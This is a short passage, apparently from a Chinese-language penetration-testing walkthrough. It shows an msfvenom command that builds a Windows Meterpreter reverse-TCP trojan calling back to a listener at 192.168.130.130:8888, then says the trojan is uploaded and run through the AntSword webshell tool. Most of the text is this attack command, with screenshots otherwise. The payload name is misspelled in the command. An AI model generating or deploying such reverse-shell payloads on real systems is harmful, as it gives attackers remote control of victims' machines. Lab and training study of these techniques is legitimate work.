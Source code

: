 生成木马

```
msfvenom -p windows/x64/meterprter/reverse_tcp LHOST=192.168.130.130 LPORT=8888 -f exe -o shell.exe
```

![img](assets/1691765650937-4903d3ae-892c-492c-a54c-74c105db7d7c.png)

然后通过蚁剑上传并执行shell

![img](assets/1691766858165-1d66a19e-887b-4960-b5bd-5ace134c1674.png)

![img](assets/1691767282074-052bb086-1259-4594-b787-b880081dd598.png)
